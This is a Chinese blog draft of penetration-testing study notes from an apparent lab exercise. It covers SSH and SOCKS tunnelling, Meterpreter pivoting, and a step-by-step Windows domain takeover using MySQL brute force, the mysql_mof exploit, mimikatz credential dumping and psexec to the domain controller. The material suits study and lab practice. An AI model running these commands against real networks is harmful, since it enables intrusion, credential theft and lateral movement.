+++
date = '2026-07-29T14:18:33+08:00'
draft = true
title = 'SSH隧道'
tags = ['ssh', '隧道', '内网穿透']
comments = true

+++


##  SSH隧道

ssh用于登录远程主机，并且在远程主机上执行命令。它的目的是替换rlogin和,rsh同时在不安全的网络之上，两个互不信任的主机之间，提供加密的，安全的通信连接，X11连接和任意TCP/IP端口均可以通过此安全通道转发（forward).当用户通过连接并登录主机hostname后，根据所用的协议版本，用户必须通过下述方法之一向远程主机证明他/她的身份：





### 正向连接

#### WEB服务器执行

```cmd
# 在你本机所有网卡的 `7777` 端口上监听，所有流量通过 SSH 隧道送到 `192.168.0.144`，再由它转发到内网的 `10.10.10.129:80`
ssh -CNfL 0.0.0.0:7777:10.10.10.129:80  moon@192.168.0.140
```

命令解释：

-C： 启用数据压缩

-N：不执行远程命令，仅作端口转发

-f:	认证后转入后台执行

-L： 0.0.0.0:7777:10.10.10.129:80    本地端口转发规则（Local forward），在本机所有网卡的 7777 端口监听，收到的流量通过 SSH 隧道送到目标 10.10.10.129:80

moon@192.168.0.144       以用户moon登录SSH服务器192.168.0.144


执行成功后，在web服务器的浏览器中输入192.168.0.144:7777,即可访问到内网主机的80端口

#### 攻击者访问内网主机

```
http://192.168.0.144:7777
```


### 反向连接

**在被控Web服务器执行**

```cmd
ssh -qTfnN -R port:host:hostport  remote_ip
ssh -qTfnN -R 2222:127.0.0.1:22  root@192.168.0.115
```

-q : 安静模式，不输出任何报告或诊断信息

-T(disable PTY)：禁用伪终端分配，这里仅作端口转发，不需要交互式shell，警用它可以减少资源消耗和痕迹

-f(Background): 将SSH连接放入后台运行，不占用当前终端

-N (No command):不执行任何远程命令，仅建立端口转发通道，进一步降低被检测的风险

-R  2222:127.0.0.1:22(核心参数)：指示攻击机（192.168.0.115）开放 `2222` 端口，并将访问该端口的流量通过加密隧道转发到执行此命令的内网主机的 `22`（SSH）端口

在执行命令后，输入攻击机root用户的登录密码

#### 注意点

这里攻击机的ssh服务需要打开

```cmd
systemctl start ssh(Centos可能为sshd)
/etc/init.d/ssh start(老写法)
```


之后在攻击机输入命令，

```
ssh -p 2222 web@127.0.0.1
```

然后就可以登录到web服务器，之后通过

```cmd
curl http://10.10.10.128
```

可以访问到内网主机的页面

#### 注意点

一般来说正向连接用于有公网IP的web服务器，其可以访问内网，于是利用它作为中转

反向连接一般来说服务器不出网，但是你得到了它的webshell，向将内网的服务转发到公网端口访问（不只于22，还可以80，8080，3306）


## 端口转发

应用场景：我现在通过上传木马反向shell连接成功，获得了一个meterpreter shell，我想要从攻击机（192.168.0.115）访问到10.10.10.128的80端口

在这里得到meterpreter后，执行

```cmd
portfwd add -L 192.168.0.115 -l 2020 -p 80 -r 10.10.10.128
```

之后在攻击机上就可以访问到内网的80端口

portfwd add : 在Meterpreter中新增一条端口转发规则

-L   192.168.0.115:指定**本地监听的主机 IP**。这里明确指定了攻击机的 IP `192.168.0.115`。如果不加 `-L`，默认只监听在 `127.0.0.1`（仅本机可访问）；加上具体 IP 后，局域网内其他机器也能通过这个 IP 访问。

-l  2020 : 指定**本地监听端口**为 `2020`

-p 80 : 指定**目标主机的远程端口**为 `80`（通常是 HTTP 服务）

-r 10.10.10.128 ： 指定**目标主机的 IP 地址**为 `10.10.10.128`（通常是内网深处的数据服务器或 Web 服务器）


执行该命令后，Meterpreter 会在 `192.168.0.115` 的 `2020` 端口开启一个 TCP 中继


访问方式：在攻击机http://192.168.0.115:2020


#### 补充：

| 命令                   | 作用                          |
| ---------------------- | ----------------------------- |
| portfwd list           | 查看1当前所有活跃端口转发列表 |
| portfwd delete -l 2020 | 删除指定端口的转发规则        |
| portfwd flush          | 清空所有端口的转发规则        |


实现本地端口转发

```
portfwd add -l 5555 -r 10.10.10.x -p 3389
```

如果在linux,可以通过

```
rdesktop 127.0.0.1:5555
```

通过5555访问远程主机的3389端口（RDP）


## socket隧道

下载ssocks安装包并解压编译

```
tar -zxvf 压缩包路径
cd ssocks-0.0.14/
./configure && make
```

```cmd
./rcsocks -l 1088 -p 1080 -vv
```

该命令的核心是启动一个反向SOCKS代理的客户端，监听本机端口1088，等待远程rssocks服务端主动连接.从而建立一条穿透防火墙的代理隧道

-vv : 输出大量调试信息


```
./rssocks -vv -s 192.168.0.115:1080
```

-s : 指定要连接目标服务器的IP地址

注意还需要指定端口


### 利用proxychains进行Socks5代理

首先是安装包

```cmd
apt-get install proxychains
```

攻击机上

之后编辑ssocks文件夹中的proxychains配置文件

一般在soscks文件夹下src/etc/proxychains.conf

在文件中加入

```
socks5 127.0.0.1 1088
```

这里是建立反向连接

之后可以

```
proxychains curl http://10.0.0.5/       # 访问内网web
proxychains nmap -sT -Pn 10.0.0.0/24   # 内网扫描（注意proxychains只支持TCP全连接扫描）
```


## 跨网段扫描

通过木马进入meterpretr后，

查看当前用户

```
getuid
```

获取网卡信息

```
ifconfig
```

路由信息

```
run get_local_subnets
```

添加路由

```
# 凡是要去 10.10.10.0/24 的流量，都通过我这个 Meterpreter 会话转发出去(假设受害机IP是 192.168.1.50，它还能访问内网 10.10.10.0/24)
run autoroute -s 10.10.10.0/24

或者
(要去 10.10.10.0/24 的网段，都通过 session 1 转发)
route add 10.10.10.0 255.255.255.0 1
```

```
bg
use auxiliary/server/socks4a(旧版)
use auxiliary/server/socks_proxy(支持socks5)
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
```

这时攻击机本地的 `127.0.0.1:1080` 就是一个 SOCKS5 代理口，它会利用之前加的路由，将流量通过 session 1 投递到内网

攻击机上配置/etc/proxychains.coonf,确认有

```
socks5 127.0.0.1 1080
```

接着攻击机通过代理访问内网

```
proxychains curl http://10.10.10.10/
```

或者用nmap扫描内网：

```
proxychains nmap -sT -Pn 10.10.10.0/24
```

-sT : 全连接扫描

-Pn ： 跳过主机发现

流量路径

```
curl (攻击机) → proxychains → 127.0.0.1:1080 (MSF SOCKS) 
→ MSF路由: 匹配10.10.10.0/24 → session 1 (受害机) 
→ 受害机转发数据包到 10.10.10.10
```


这样的话就可以使用密码爆破工具对开放的ssh端口等进行弱口令爆破


## 一次完整的域渗透过程



首先在kali中生成木马，上传到域客户机2008，利用msf监听，得到meterpreter,这里是比较常规的使用

之后在meterpreter中

```
# 查看当前用户
getuid  --》 这里一般不是SYSTEM，需要提权
getprivs --》尽可能提升权限
getsystem --》通过各种攻击向量来提升系统用户权限
这路没有提权成功，其实可以再尝试一下看一下有什么系统漏洞的
```

之后信息收集，在meterpreter中

```
# 属于后渗透模块，在本机上执行，所以不需要配置路由
run post/windows/gather/arp_scanner rhosts=10.10.1.0/24

#看一下
ipconfig /all(知晓本机网卡情况，对拓扑有进一步了解)

补充：
针对于这些主机，我们其实还需要进行探活，
use auxiliary/scanner/discovery/arp_sweep

这里需要走msf会话，所以需要先配置路由后再使用
route add 10.10.1.0 255.255.255.0 1
set RHOSTS 10.10.1.0/24
run
```




之后回到msf中执行添加路由的命令：(在kali上执行，指示)

```
bg

# route add [目标网段] [子网掩码] [会话ID]（你拿到一台跳板机（session=1），跳板机能访问 10.10.1.0/24 内网，让 MSF 所有模块走这个跳板）
route add 10.10.1.4 255.255.255.0 1(写route add 10.10.1.0 255.255.255.0 1更好)
```


之后准备执行端口扫描，在msf中

```
#
use scanner/portscan/tcp（或者use auxiliary/scanner/portscan/tcp）
#
# 这里RHOSTS可以设置一个网段 10.10.1.0/24
# 可以设置单个主机  10.10.1.4
# PORTS可以设置常用的端口，


```




针对于扫描出的一些端口，msf也有一些现成模块可以利用

比如扫描到了3306端口，

```
use auxiliary/scanner/mysql/mysql_login
set rhosts 10.10.1.3
set USERNAME root
# 选择mysql密码本来进行爆破
set PASS_FILE <...>
run

```




我们拿到了域客户机2003的mysql root密码，这样由于这个主机为winserver2003,所以有这样一个漏洞可以利用








```
use exploit/windows/mysql/mysql_mof
set PASSWORD 123456
set RHOST 10.10.1.3
set USERNAMR root
set payload windows/meterpreter/bind_tcp(这里采用反向连接会不会更好一点呢)
run

```



通过这个过时的漏洞得到了域客户机的session

得到的权限还是SYSTEM,那么在shell中我们继续进行信息收集

```
# 查询当前同一局域网、同广播域内在线开启文件共享的主机列表，读取计算机名 + IP。
原理：通过 SMB/NetBIOS 协议扫描内网存活主机，依赖 139、445、135 端口开放
net view

# 列出本机能访问到的所有域名称（只输出域名，不输出主机）
net view /domain

# 查看所属域，dns服务器IP
ipconfig /all

# 指定域名 moonsec，去域控拉取该域下全部计算机清单
net view /domain:moonsec

```





之后可以通过ping SERVERS2003，来判断其对应的IP

```cmd
ping SERVERS2003
ping WIN-7230786H6KU
```




网路拓扑图差不多清楚了，我们接着收集下域内用户的信息

```
# 查看本地用户
net user

# 读取DC数据库，输出当前计算机所在域用户
net user /domain

# 查看域内所有用户组
net group /domain

# 会显示当前域中权威时间服务器（通常是主域控制器PDC）的日期和时间--->可以知晓域控是谁
net time /domain
```




#### 补充：域内用户分类




退出shell，回到meterpreter,准备横向移动

```
hashdump
```




由于当前10.10.1.3为一个域内普通用户，如果需要修改系统信息，需要通过域管理员的操作，需要输入账号和密码



如果需要提取明文，需要工具，mimikatz，在获得的meterpreter中，

```
load mimikatz（不行就load kiwi）

由于这里已经是SYSTEM权限，所以不需要提权这一操作，但是还是需要走个流程
# 提权（获得调试权限，这是读取LSASS进程内存的前提）
privilege::debug

#提取hash
sekurlsa::msv（补充一下这里直接用sekurlsa::logonpasswords，可以看到用户hash，明文密码，kerberos票据）

```




查看kerberos

```
# 直接展示了当前系统中缓存的 Kerberos 票据和凭据信息
kerberos

```




这里用户名和密码居然明文存储，又是组策略没做好，

之后我们便想得到域控主机的session,通过之前的信息收集，我们就知道域控主机的IP为10.10.1.2，还是在meterpreter中

```cmd
use exploit/windows/smb/psexec
set rhost 10.10.1.2
set SMBDomain moonsec
set SMBUser administrator
set SMBPass xxx123456..
set payload windows/meterpreter/bind_tcp
run
```

这样我们就得到了域控1主机的会话，接着我们就可以开始收集域控主机的信息

```
ipconfig /all
sysinfo
getuid

# 尽可能提升权限
getprivs
getsystem

这里还是不行

```

```
bg

# Metasploit 框架中一个用于 Windows 本地权限提升的模块，它的核心原理是“请求”而非“绕过”：通过触发系统的用户账户控制（UAC）弹窗，请求用户以管理员权限运行一个程序，它本身无法绕过 UAC，最终能否提权完全取决于目标机器上的用户是否点击“是”
use exploit/windows/local/ask

这里视频讲的一团糟

最后是使用migrate，来进行的提权得到SYSTEM权限（一般来说需要管理员权限）

ps

migrate 一个以SYSTEM权限运行的程序pid
--------------------
或者这里视频里面的解决方案是

# Metasploit 中专门用来转储 Windows 系统本地 SAM 数据库中密码哈希值（NTLM Hash）的后渗透模块，所以这里这能查看本地账户的hash
run post/windows/gather/hashdump
这里第四部分即为NTLM hash
```



之后，又可以

```
load mimikatz（不行就load kiwi）

由于这里已经是SYSTEM权限，所以不需要提权这一操作，但是还是需要走个流程
# 提权（获得调试权限，这是读取LSASS进程内存的前提）
privilege::debug

#提取hash(从运行中的LSASS进程中得到，可以查看本地账户和域账户的hash,只要登陆过，就可以看到)
sekurlsa::msv（但是这里，视频里面明显错误，可以load kiwi后creds_all）
```

```
视频里面讲的很乱，只会复制粘贴命令
之后
在meterpreter中
# 这又是一个旧版端口，来提取本地SAM数据库的hashm=,只能看本地用户
mimikatz_command -f samdump::hashes


# 开启域控远程桌面（RDP 3389）
run getgui -e


这视频我看不下去了，它先开启了跳板机的远程桌面，然后再里面开启域控主机的远程桌面，密码都不知道怎么开启？？？？，就自己知道自己输是吧
rdesktop 192.168.0.113
```

